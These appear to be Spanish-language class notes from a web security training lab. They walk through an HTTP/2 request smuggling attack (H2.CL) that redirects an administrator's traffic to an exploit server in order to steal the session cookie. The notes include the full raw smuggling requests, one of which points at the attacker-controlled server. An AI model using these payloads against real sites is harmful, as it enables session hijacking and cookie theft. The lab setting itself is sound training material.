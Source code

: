 En esta clase llevamos a cabo un ataque de request smuggling utilizando HTTP/2 con un encabezado ‘**Content-Length**‘ malicioso (H2.CL), cuyo objetivo es hacer que el navegador de la víctima cargue y ejecute un archivo JavaScript desde nuestro servidor malicioso.

Aprovechamos una redirección automática al acceder a /resources, lo que nos permite inyectar una petición que, al ser procesada por el back-end, provoca que la víctima sea redirigida al exploit server donde se aloja nuestro payload ‘**alert(document.cookie)**‘.

La clave está en enviar la petición en el momento justo en que el administrador accede a la página, ya que este tráfico será el que acabe siendo redirigido gracias a la cola de respuestas envenenada. Esta técnica requiere repetir el ataque varias veces hasta acertar con el timing exacto.

Solucion
asi que vamos hacer la configuracion de la intercepcion de la pagina principal y vamos a meter un paylaod para que nos muestre el error 404 y asi saber si es vulnerable a smuggling
![Pasted_image_20250809212331.png](Imagenes/Pasted_image_20250809212331.png)
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /error HTTP/1.1

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 5



x=1)
entonces en este caso a un request smugling
entonces que sigue por que en este caso nosotros no podemos copiar asi la cookie entonces lo que hacemos es investigar un poco y si miramos en el BS en el http history vemos que se esta haciendo alucion a /resources cada poco tiempo
![Pasted_image_20250809212628.png](Imagenes/Pasted_image_20250809212628.png)
de modo que nostros no podemos hacer la peticion por medio de esta vulnerabilidad lo que podemos hacer es redireccionar nuestro payload hacia resources para ver si nos arroja el mismo error
![Pasted_image_20250809213017.png](Imagenes/Pasted_image_20250809213017.png)
y en este caso nos arroja el 302 (entonces lo que podemos hacer es redirigir a nuestro exploit server)
pasamos a configurarlo
![Pasted_image_20250809213648.png](Imagenes/Pasted_image_20250809213648.png)
entonces cambiamos el host hacia nuestro exploit server y le damos send
![Pasted_image_20250809213730.png](Imagenes/Pasted_image_20250809213730.png)
ahora si le damos follow redirection
![Pasted_image_20250809214244.png](Imagenes/Pasted_image_20250809214244.png)
payload (POST / HTTP/2

Host: 0acf009104a4a3a580be0371005c0095.web-security-academy.net

Content-Length: 14



test=testing

GET /resources HTTP/1.1

Host: exploit-0a65006b044fa3548057025e012f00fe.exploit-server.net

Content-Length: 5



x=1)
entonces es solo cuestion de esperar para poder tener respuesta de la cookie
![Pasted_image_20250809214528.png](Imagenes/Pasted_image_20250809214528.png)
